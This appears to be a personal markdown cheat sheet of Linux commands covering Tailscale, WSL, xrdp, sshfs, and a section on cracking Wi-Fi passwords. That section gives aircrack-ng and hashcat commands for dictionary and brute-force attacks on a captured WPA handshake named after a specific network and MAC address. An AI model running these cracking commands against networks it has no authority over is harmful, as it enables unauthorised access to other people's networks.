 
* create free vpn (tailscale.com)
```
tailscale
```

* crack wifi hash from wifite (aircrack-ng) with wordlist
```
sudo wifite
# stop monitor mode
sudo airmon-ng stop wlp0s20f3mon
```

# crack hash with dictionary (after WAP handshake)
sudo  aircrack-ng -w ../Documents/bigFiles/10-million-password-list-top-1000000.txt handshake_Mirkovic_F4-A4-54-81-34-10_2025-03-19T05-54-00.cap

# crack hash with dictionary (after pmkid) (using GPU ~100x faster than CPU)
hashcat hashFile dictoinary

# crack hash with mask
# -a3 use mask
# -1 define custom mask
# ?d?u?l?a create a custom charset with lowercase (?l), uppercase (?u), and digits (?d), lowercase & uppercase & special characters & numbers (?a)
# ?1?1?1?1?1?1?1?1 eight characters longa

# all eight character numbers
hashcat hs/hash.cap -a3 -1 ?d ?1?1?1?1?1?1?1?1

# full brute force (8 characters)
hashcat hs/hash.cap -a3 ?a?a?a?a?a?a?a?a


* ubunti installation on windows powershell
``` 
wsl --install -d Ubuntu
```

* remote access remmina + xrdp
```
# start xrdp server (restart|stop|enable|disable)
sudo systemctl start xrdp
```

* remote file system
```
# mount remote filesystem
sshfs user@host:/remote_dir /local_dir

# remove mounted filesystem
fusermount -u /local-dir
```


